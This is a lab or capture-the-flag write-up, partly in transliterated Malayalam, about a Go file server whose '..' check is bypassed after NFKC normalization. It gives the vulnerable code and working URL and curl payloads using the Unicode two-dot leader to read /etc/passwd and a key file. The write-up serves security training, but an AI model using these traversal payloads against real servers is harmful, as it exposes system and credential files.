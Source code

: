 ## Introduction
-->This exercise covers how can leverage unicode to get exploit a directory traversal
-->This exercise covers Unicode transformation and how they can be used to trigger unexpected behaviours in web application.

## The issue
-->The issue comes from the fact that manipulating a string can create collisions and unexpected behaviours. Here the application prevents users from using `..` in the path. However, the application also normalise the path before using it. The path is decomposed by compatibility and then recomposed. This behaviour allows an attacker to provide characters that are not a single dot that become one or multiple single dots after the decomposition takes place.
-->You can read more on Unicode Equivalence [here](https://en.wikipedia.org/wiki/Unicode_equivalence) and on Unicode Compatibility Characters [here](https://en.wikipedia.org/wiki/Unicode_compatibility_characters).

## Exploitation
-->To exploit this issue, you will need to find the right character(s) to be able to access the key: `/app/key.txt`. Multiple solutions exist.

## Conclusion
-->This exercise showed you how even the smallest innocuous change could be harmful and impact the security of an application. Since traditional courses rarely cover this type of bug, it is less known and more likely to be found during your testing.

# Video Explanation
-->ivide namal directory traversal aan chyan udheshikunath
-->so lab open chyuka apol page il kanam :
```js
# In this challenge, you need to retrieve the key located in `/app/key.txt`  
  
  func containsDotDot(v string) bool {
  if !strings.Contains(v, "..") {
    return false
  } 
  for _, ent := range strings.FieldsFunc(v, func(r rune) bool { return r == '/' || r == '\\' }) {
    fmt.Println(ent)
    if ent == ".." {
      return true
    } 
  } 
  return false
} 


func handler(w http.ResponseWriter, r *http.Request) {
    if (containsDotDot(r.URL.Path)){
      http.Error(w, "File not found.", 404)
      return
    }
    path := r.URL.Path;
    if path == "/" {
      path+="index.html"
    }
    t := transform.Chain(norm.NFKC)
    filename, _, _ := transform.String(t, path)
    fd, err := os.Open("/app/data/"+filename)
    defer fd.Close()
    if err != nil {
      http.Error(w, "File not found.", 404)
      return
    }
    io.Copy(w, fd)
}
```
-->so url il namal normally chyuna ../../../etc/passwd adikuka (in burp).but error aan verunath.so namal enth chyunu ennal .. ennal unicode inte form il copy chyth it athinte :
```
UTF-8 Encoding: 0xE2 0x80 0xA5
```
form copy chyth test chyanam.athum space oke ozhuvaki 0x um ozhivaki chyanam.ee site il poyal athinte details ariyan patum ->https://www.compart.com/en/unicode/U+2025
-->so angane chyumbol `%E2%80%A5` inagne kitum.ie, double qoute mathraman namal ingane chyhath allathe slashum athinte koode chythitila.so ith vech namuk /etc/passwd kandupidikam so->http://ptl-ee7c80ea-08fb2365.libcurl.so/%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/passwd  enn kodukumbol namuk passwd file kitunund 
-->but ivide namuk key.txt aan vendath so namal /etc/passwd mati /app/key.txt koduthal namuk key kitum ok
-->ith curl il engnae chyumen nokam :
```bash
>curl 'http://ptl-ee7c80ea-08fb2365.libcurl.so/%E2%80%A5/%E2%80%A5/%E2%80%A5/%E2%80%A5/etc/passwd' --path-as-is -v
```
-->NOTE : ith double qoute inte aan chythath venengil single qoute inte ittalum chythamathi apol oru /../ il thane rand pravishma ital mati ok ie, `%E2%80%A4`  ennan singlq qoute verumbol chyuka but ith randpravisham aayi ital mathi ie,`/%E2%80%A5%E2%80%A5/%E2%80%A5%E2%80%A5/%E2%80%A5%E2%80%A5/%E2%80%A5%E2%80%A5/etc/passwd`  ok